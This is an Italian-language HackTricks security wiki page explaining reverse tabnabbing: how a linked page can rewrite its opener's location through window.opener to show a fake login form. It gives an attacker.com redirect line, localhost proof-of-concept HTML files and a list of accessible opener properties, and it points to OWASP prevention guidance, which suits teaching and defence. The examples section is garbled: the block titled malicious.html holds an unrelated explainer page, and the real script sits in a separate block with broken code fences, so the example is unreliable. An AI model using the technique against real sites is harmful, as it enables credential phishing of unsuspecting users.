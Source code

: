 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Descrizione

In una situazione in cui un **attaccante** può **controllare** l'argomento **`href`** di un tag **`<a`** con l'attributo **`target="_blank" rel="opener"`** che verrà cliccato da una vittima, l'**attaccante** **punta** questo **link** a un web sotto il suo controllo (un **sito** **maligno**). Poi, una volta che la **vittima clicca** sul link e accede al sito dell'attaccante, questo **sito** **maligno** sarà in grado di **controllare** la **pagina** **originale** tramite l'oggetto javascript **`window.opener`**.\
Se la pagina non ha **`rel="opener"` ma contiene `target="_blank"` e non ha `rel="noopener"`** potrebbe essere vulnerabile.

Un modo comune per abusare di questo comportamento sarebbe **cambiare la posizione del web originale** tramite `window.opener.location = https://attacker.com/victim.html` a un web controllato dall'attaccante che **sembra quello originale**, in modo da **imitare** il **modulo** di **accesso** del sito originale e chiedere le credenziali all'utente.

Tuttavia, nota che poiché l'**attaccante ora può controllare l'oggetto finestra del sito originale**, può abusarne in altri modi per eseguire **attacchi più furtivi** (forse modificando eventi javascript per esfiltrare informazioni a un server controllato da lui?)

# Panoramica

## Con link di ritorno

Link tra pagine padre e figlio quando l'attributo di prevenzione non è utilizzato:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## Senza link di ritorno

Link tra pagine padre e figlio quando l'attributo di prevenzione è utilizzato:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## Esempi <a href="#examples" id="examples"></a>

Crea le seguenti pagine in una cartella e avvia un server web con `python3 -m http.server`\
Poi, **accedi** a `http://127.0.0.1:8000/`vulnerable.html, **clicca** sul link e nota come l'**URL** del **sito** **originale** **cambia**.

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
<!DOCTYPE html>
<html lang="it">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Tab Nabbing</title>
</head>
<body>
    <h1>Tab Nabbing</h1>
    <p>Il tab nabbing è una tecnica di phishing che sfrutta il comportamento degli utenti quando aprono nuovi tab nel browser.</p>
    <p>Quando un utente clicca su un link, il sito maligno può aprire un nuovo tab e reindirizzare l'originale a una pagina di login falsa.</p>
    <p>Per proteggersi dal tab nabbing, è importante utilizzare l'attributo <code>rel="noopener noreferrer"</code> nei link che aprono nuovi tab.</p>
</body>
</html>
{% endcode %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## Proprietà accessibili <a href="#accessible-properties" id="accessible-properties"></a>

Nello scenario in cui si verifica un accesso **cross-origin** (accesso tra domini diversi), le proprietà dell'istanza della classe JavaScript **window**, a cui si fa riferimento tramite l'oggetto JavaScript **opener**, che possono essere accessibili da un sito malevolo sono limitate alle seguenti:

- **`opener.closed`**: Questa proprietà viene utilizzata per determinare se una finestra è stata chiusa, restituendo un valore booleano.
- **`opener.frames`**: Questa proprietà fornisce accesso a tutti gli elementi iframe all'interno della finestra corrente.
- **`opener.length`**: Il numero di elementi iframe presenti nella finestra corrente è restituito da questa proprietà.
- **`opener.opener`**: Un riferimento alla finestra che ha aperto la finestra corrente può essere ottenuto tramite questa proprietà.
- **`opener.parent`**: Questa proprietà restituisce la finestra padre della finestra corrente.
- **`opener.self`**: L'accesso alla finestra corrente stessa è fornito da questa proprietà.
- **`opener.top`**: Questa proprietà restituisce la finestra del browser più alta.

Tuttavia, nei casi in cui i domini siano identici, il sito malevolo ottiene accesso a tutte le proprietà esposte dal riferimento all'oggetto JavaScript [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window).

# Prevenzione

Le informazioni sulla prevenzione sono documentate nel [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing).

## Riferimenti

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
